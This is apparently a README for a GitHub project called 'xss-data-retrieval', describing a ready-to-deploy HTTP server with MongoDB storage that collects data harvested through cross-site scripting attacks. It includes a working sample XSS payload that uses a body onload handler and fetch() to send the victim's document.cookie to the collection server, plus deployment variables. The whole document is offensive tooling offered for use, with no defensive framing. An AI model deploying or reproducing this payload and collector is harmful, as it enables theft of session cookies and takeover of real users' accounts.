 # xss-data-retrieval

Ready to go HTTP Server with MongoDB communication for storing the payload obtained in your XSS attacks.

## Usage

`GET /?data=<payload>`

## Sample XSS Attack

`<body id=x tabindex=1 onload=fetch(`host:port/?data=${document.cookie}`)></body>`

### Deploy

Define the following environment variables:

|Variable|Description|
|--------|-----------|
|PORT|Port which the server will be listening requests|
|MONGODB_CONNECTION_URL|Connection URL of the Mongo database that will store the payloads|